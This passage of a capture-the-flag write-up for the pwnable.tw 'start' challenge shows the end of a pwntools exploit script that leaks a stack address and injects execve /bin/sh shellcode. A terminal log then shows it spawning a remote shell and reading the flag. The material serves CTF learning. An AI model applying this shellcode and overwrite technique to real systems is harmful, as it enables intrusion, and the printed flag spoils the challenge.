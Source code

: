 ```py
    stack_leak = u32(p.recv(4))
    slog('Stack leak', stack_leak)

    shellcode = asm('''
        mov al, 0xb
        mov ebx, esp
        xor ecx, ecx
        xor edx, edx
        int 0x80
        ''')

    pl = shellcode.ljust(20, b'\x00') + p32(stack_leak - 4) + b'/bin/sh\0'
    s(pl)

    interactive()

if __name__ == '__main__':
  exploit()
```

P/S: My first shellcode didn’t look like this, but for some reason, it was still able to execute `execve`. So, I changed my approach to injecting `/bin/sh`.

# Get flag

```sh
alter ^ Sol in ~/lab/pwnable.tw/start
$ ./xpl.py REMOTE chall.pwnable.tw 10000
[+] Opening connection to chall.pwnable.tw on port 10000: Done
[+] Stack leak: 0xffd6b030
[*] Switching to interactive mode
\x01\x00\x00\x006\xbf\xd6\xff\x00\x00\x00\x00H\xbf\xd6\xff$ cd /home/start
$ ls
flag
run.sh
start
$ cat flag
FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}
```
